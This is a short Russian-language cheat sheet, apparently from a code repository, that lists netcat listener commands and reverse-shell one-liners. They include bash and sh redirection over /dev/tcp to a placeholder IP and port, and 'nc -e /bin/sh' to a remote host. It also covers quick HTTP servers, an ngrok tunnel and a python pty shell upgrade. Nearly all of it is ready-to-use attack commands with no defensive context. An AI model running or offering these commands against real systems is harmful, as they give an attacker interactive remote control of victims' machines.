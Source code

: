 # NetCat

слушать порт:
```bash
nc -lvnp {port}
```
подключиться к прослушиваемому порту:
```bash
bash -i >& /dev/tcp/{IP}/{port} 0>&1
```
или
```sh
sh -i >& /dev/tcp/{IP}/{port} 0>&1
```
или
```bash
bash -c "bash -i >& /dev/tcp/{your_IP}/{your_listeniing_port} 0>&1"
```
## Reverse shell

- В консоли введите команду:
```bash
nc -nlvp {port}
```

- Чтобы соединиться с удаленного узла введите команду:
```bash
nc -e /bin/sh {IP} {port}
```

Реверс-шелл можно также организовать при помощи команды:
```bash
reverse_shell_listener {port}
```
# Create server

```php
php -S {ip}:{port}
```

```python
python3 -m http.server {port}
```

```bash
ngrok http 9001
```
# Upadate shell
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
